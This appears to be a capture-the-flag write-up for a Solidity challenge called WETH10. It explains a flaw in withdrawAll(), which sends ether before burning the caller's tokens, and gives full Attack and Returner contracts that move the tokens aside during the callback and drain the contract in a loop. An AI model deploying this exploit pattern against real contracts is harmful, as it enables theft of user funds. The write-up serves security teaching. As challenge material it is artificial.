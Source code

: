 # WETH10

## Challenge

We are provided a contract:

```solidity
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Messi Wrapped Ether
contract WETH10 is ERC20("Messi Wrapped Ether", "WETH10"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        Address.sendValue(payable(msg.sender), wad);
        _burn(msg.sender, wad);
    }

    function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
        _burnAll();
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```

and a poc setup:

```solidity
contract Weth10Test is Test {
    WETH10 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH10();
        bob = makeAddr("bob");

        vm.deal(address(weth), 10 ether);
        vm.deal(address(bob), 1 ether);
    }

    function testHack() public {
        assertEq(address(weth).balance, 10 ether, "weth contract should have 10 ether");


        vm.startPrank(bob);

        // hack time!

        vm.stopPrank();
        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(bob.balance, 11 ether, "player should end with 11 ether");
    }
}
```

Challenge Description:
The contract currently has 10 ethers. (Check the Foundry configuration.)
You are Bob (the White Hat). Your job is to rescue all the funds from the contract, starting with 1 ether, in only one transaction.

## Analysis

At first i thought that I could just use the execute function to call the _mint() function of the WETH10 contract and generate myself enough tokens to withdraw all the eth. I then learned that internal functions can never be accessed via call() from this stackoverflow post (https://ethereum.stackexchange.com/questions/15663/cannot-call-internal-function-via-call). 

The next thing I found is that the execute doesn't check for the value being bigger than 0, so you can also set it to 0 and call non payable functions as the contract. Unfortunately this was not the way to solve this chall. Nevertheless in the case of the WETH contract owning tokens itself we could transfer these tokens to us if we want, by abusing the call.

## Solution

The vulnerability lies in the external call in withdrawAll(). We get sent all the money our tokens are worth and afterward all our tokens are burnt. The problem is that inbetween these 2 checks we can do whatever we want:

1. Our token balance gets counted
2. We get sent the value of these tokens
3. !!! We can do whatever we want !!!
4. All the tokens we own are burnt.

So what we can do is to transfer the tokens somewhere else after they were counted and then let the account burn our remaining tokens(0) afterwards. Then we just give the tokens back to our original contract and withdraw again. Rinse and repeat until we have all the eth. To do this I implemented an attak kcontract that does the main work:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./WETH10.sol";
import "./Returner.sol";

contract Attack
{
    WETH10 target;
    Returner returner;
    constructor(address payable _target)
    {
        target = WETH10(_target);
        returner = new Returner(_target);
    }

    function attack() payable external
    {
        target.deposit{value: msg.value}();
        target.withdrawAll();

        for (int i = 0; i < 10; i++)
        {
            returner.returnTokens();
            target.withdrawAll();
        }

        (msg.sender).call{value: 11 ether}("");
    }

    fallback() external payable
    {
        target.transfer(address(returner), target.balanceOf(address(this)));
    }
}
```
As well as the Returner contract which we use to store the tokens during the burning phase:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./WETH10.sol";

contract Returner
{
    address owner;
    WETH10 target;

    constructor(address payable _target)
    {
        owner = msg.sender;
        target = WETH10(_target);
    }

    function returnTokens() public
    {
        target.transfer(owner, target.balanceOf(address(this)));
    }
}
```
Having these 2 we can just deploy the attack contract as bob and call the attack function to drain the contract. You can see the implementation in the POC.sol file.


